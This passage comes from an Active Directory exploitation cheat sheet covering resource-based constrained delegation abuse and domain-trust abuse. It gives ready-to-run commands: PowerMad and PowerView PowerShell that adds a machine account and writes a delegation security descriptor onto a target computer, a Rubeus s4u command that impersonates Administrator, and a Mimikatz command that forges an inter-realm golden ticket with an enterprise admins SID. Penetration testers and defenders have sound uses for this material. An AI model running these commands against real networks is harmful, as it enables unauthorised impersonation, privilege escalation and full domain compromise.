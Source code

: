 **Exploitation**

If we compromise a _frontend service_ that appears in the RBCD property of a _backend service_, exploitation is the same as with constrained delegation above. This is however not too common.

A more often-seen attack to RBCD is when we have `GenericWrite`, `GenericAll`, `WriteProperty`, or `WriteDACL` permissions to a computer object in the domain. This means we can write the `msDS-AllowedToActOnBehalfOfOtherIdentity` property on this machine account to add a controlled SPN or machine account to be trusted for delegation. We can even create a new machine account and add it. This allows us to compromise the target machine in the context of any user, as with constrained delegation.

```powershell
# Create a new machine account using PowerMad
New-MachineAccount -MachineAccount NewMachine -Password $(ConvertTo-SecureString 'P4ssword123!' -AsPlainText -Force)

# Get SID of our machine account and bake raw security descriptor for msDS-AllowedtoActOnBehalfOfOtherIdentity property on target
$sid = Get-DomainComputer -Identity NewMachine -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"
$SDbytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDbytes,0)

# Use PowerView to use our GenericWrite (or similar) priv to apply this SD to the target
Get-DomainComputer -Identity TargetSrv | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

# Finally, use Rubeus to exploit RBCD to get a TGS as admin on the target
.\Rubeus.exe s4u /user:NewMachine$ /rc4:A9A70FD4DF48FBFAB37E257CFA953312 /impersonateuser:Administrator /msdsspn:CIFS/TargetSrv.targetdomain.com /ptt
```

PowerShell

#### Abusing domain trust <a href="#abusing-domain-trust" id="abusing-domain-trust"></a>

All commands must be run with DA privileges in the current domain.

Note that if you completely compromise a child domain (`currentdomain.targetdomain.com`), you can _by definition_ also compromise the parent domain (`targetdomain.com`) due to the implicit trust relationship. The same counts for any trust relationship where SID filtering is disabled (see [‘Abusing inter-forest trust’](https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/#abusing-inter-forest-trust) below).

**Using domain trust key**

From the DC, dump the hash of the `currentdomain\targetdomain$` trust account using Mimikatz (e.g. with LSADump or DCSync). Then, using this trust key and the domain SIDs, forge an inter-realm TGT using Mimikatz, adding the SID for the target domain’s enterprise admins group to our ‘SID history’.

```
kerberos::golden /domain:currentdomain.targetdomain.com /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-519 /rc4:e4e47c8fc433c9e0f3b17ea74856ca6b /user:Administrator /service:krbtgt /target:targetdomain.com /ticket:c:\users\public\ticket.kirbi
```

